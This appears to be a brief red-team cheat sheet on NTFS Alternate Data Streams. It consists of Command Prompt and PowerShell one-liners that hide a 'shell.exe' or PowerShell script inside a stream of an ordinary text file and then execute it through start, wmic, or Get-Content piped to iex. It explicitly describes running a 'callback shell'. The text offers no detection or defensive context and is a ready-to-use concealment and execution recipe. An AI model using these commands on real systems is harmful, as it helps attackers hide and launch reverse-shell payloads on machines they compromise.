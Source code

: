 # Alternate Data Streams

## 01 - Command Prompt

### 1.1 - Basics

- Hide the file

`C:\> type shell.exe > file.txt:shell.exe`

- Execute it

`C:\> start file.txt:shell.exe`

### 1.2 - WMIC

- Execute Callback Shell via ADS

`C:\> wmic process create "c:\path\to\file.txt:shell.exe"`

## 02 - Powershell

### 2.1 - Basics

- Hide the file

`PS C:\> Set-Content file.txt -Stream script.ps1 -Value shell.ps1`

- Execute Callback Shell via ADS

`PS C:\> Get-Content file.txt -Stream script.ps1 | iex`